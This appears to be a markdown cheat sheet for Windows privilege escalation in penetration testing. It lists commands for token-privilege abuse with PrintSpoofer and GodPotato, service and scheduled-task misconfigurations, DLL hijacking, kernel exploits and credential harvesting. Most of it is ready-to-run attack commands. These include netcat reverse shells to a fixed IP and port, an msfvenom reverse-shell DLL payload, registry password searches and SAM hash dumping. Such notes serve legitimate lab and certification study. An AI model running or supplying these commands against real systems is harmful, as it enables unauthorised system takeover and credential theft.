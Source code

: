 ###  Privilege Token Abusing 

Do you have any token privileges that could be abused?

```
#User
whoami /priv

	#Print Spoof
	.\PrintSpoofer64.exe -i -c powershell.exe
	.\PrintSpoofer64.exe -i -c "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
	
	#God Potato
	.\GodPotato-NET4.exe -cmd "powershell.exe"
	.\GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
```


### Search for Information

Is there any interesting abnormal system files or folders that need to be enumerated?
##### Searching Folders
```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

### Service Exploiting
https://steflan-security.com/windows-privilege-escalation-weak-permission/
#### Insecure Service Permissions
Is there any service that have permissions to change the configuration?
```
#We want the "SERVICE_CHANGE_CONFIG" set.
sc.exe qc <service>

#Modify that config and add path to shell.
sc.exe config <service_name> <option>=<value>
```

Is there any unquoted service paths?
##### Unquoted Service Paths
```
#To see unquoted services
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName

#To see if we can stop/start service
net stop <service>

#To see if we can write to the path.
icacls "C:\<folder>\"
```

#### Insecure Service Executables
Is there any service or executable we have full access to and can overwrite?

```
#check permissions
icacls "C:\<service>"

#Can we stop / start?
net stop <service>

#Remember to make a backup of the old service.
```
##### Scheduled Tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```
##### Startup Apps

```
#If we can modify this directroy and add a shell. Then restart system.
 .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```
##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Service Enumeration
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```
##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```
##### Service Configuration Writable
```
#See configuration
sc.exe qc <service_name>

#Modify Configuration
sc.exe config <service_name> <option>= <value>
```
##### DLL Hijacking
```
1. Check can service be stopped and started.
2. Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
3. Check folder or path it is searching is writable.
4. Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
5. Restart the service.
```
### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```

### Credential Harvesting

##### Registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
##### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
##### Saved Creds
```
cmdkey /list
run as /savecred /user:<username> <reverse_shell>
```
##### SAM / HIVE
```
https://book.hacktricks.xyz/windows-hardening/stealing-credentials#stealing-sam-and-system

impacket-secretsdump -sam SAM -system SYSTEM LOCAL

#Remember when passing hashes to do both lm and nt eg.  XXXXX:XXXXX
```

### Automation
```
winPEAs
ADPEAs
```